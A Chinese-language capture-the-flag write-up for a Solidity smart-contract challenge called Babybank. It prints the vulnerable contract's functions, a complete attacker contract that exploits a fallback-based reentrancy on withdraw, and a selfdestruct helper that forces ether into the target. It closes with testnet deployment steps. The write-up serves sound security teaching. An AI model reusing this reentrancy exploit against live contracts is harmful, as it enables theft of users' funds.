 ```c
function profit() public {
    require(level[msg.sender] == 0);
    require(msg.sender & 0xffff == 0xb1b1);
    balance[msg.sender] += 1;
    level[msg.sender] += 1;
}
​
function xxx(uint256 number) public onlyOwner {
    secret = number;
}
​
function guess(uint256 number) public {
    require(number == secret);
    require(level[msg.sender] == 1);
    balance[msg.sender] += 1;
    level[msg.sender] += 1;
}

```
![](https://pic.downk.cc/item/5fb9c235b18d62711383927e.png)
```c
interface BabybankInterface {
    function withdraw(uint256 amount) external;
    function profit() external;
    function guess(uint256 number) external;
    function transfer(address to, uint256 amount) external;
    function payforflag(string md5ofteamtoken, string b64email) external;
}
contract attacker {
    BabybankInterface constant private target = BabybankInterface(0x93466d15A8706264Aa70edBCb69B7e13394D049f);
    uint private flag = 0;
    function exploit() public payable {
        target.profit();
        target.guess(0x0000000000002f13bfb32a59389ca77789785b1a2d36c26321852e813491a1ca);
        target.withdraw(2);
        target.payforflag("Taijie", "Along");
    }
    function() external payable {
        require (flag == 0);
        flag = 1;
        target.withdraw(2);
    }
}

```

1.首先利用自毁给漏洞合约转币

```c
function kill() public payable {
      selfdestruct(address(0x93466d15A8706264Aa70edBCb69B7e13394D049f));
  }

```

2.使用前四位为b1b1的地址部署攻击合约attacker

枚举地址建议使用：https://vanity-eth.tk/

3.攻击合约部署成功后，调用该合约的exploit函数
MetaMask钱包显示调用完成

4.查看ropsten中漏洞合约的相关数据
数据显示，Events事件中payforflag函数中调用的两个参数（payforflag("Taijie", "Along")）已成功输出
